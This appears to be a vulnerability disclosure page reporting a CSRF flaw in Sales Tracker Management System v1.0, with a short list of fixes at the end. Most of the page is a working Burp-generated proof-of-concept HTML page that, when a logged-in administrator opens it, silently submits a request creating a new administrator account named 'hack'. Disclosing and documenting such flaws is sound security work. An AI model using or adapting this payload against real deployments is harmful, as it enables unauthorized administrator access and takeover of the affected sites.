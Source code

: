 # Sales Tracker Management System has CSRF vulnerability

## CSRF vulnerability

BUG_Author: Murasaki

URL：http://localhost/php-sts/admin/?page=user/list

Link:https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

There is a CSRF vulnerability in the Sales Tracker Management System v1.0.

When the administrator is logged in, open the created JS file to complete the operation of adding an administrator. When the administrator is logged in, open the specified JS file to complete a series of operations that require permissions, such as adding an administrator.

![](https://github.com/1MurasaKi/STMS_CSRF/blob/main/before.png?raw=true)
![](https://github.com/1MurasaKi/STMS_CSRF/blob/main/after.png?raw=true)


# Exploit

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/192.168.8.131\/php-sts\/classes\/Users.php?f=save", true);
        xhr.setRequestHeader("Accept", "*\/*");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryHum8Ubu1DUiN8lA5");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"id\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"firstname\"\r\n" + 
          "\r\n" + 
          "hack\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"middlename\"\r\n" + 
          "\r\n" + 
          "123123\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"lastname\"\r\n" + 
          "\r\n" + 
          "hack\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"username\"\r\n" + 
          "\r\n" + 
          "hack\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"password\"\r\n" + 
          "\r\n" + 
          "hack\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"type\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5\r\n" + 
          "Content-Disposition: form-data; name=\"img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryHum8Ubu1DUiN8lA5--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

# Suggestion

- Verify the origin of the request
- Use token credentials
- Add validation for key operations
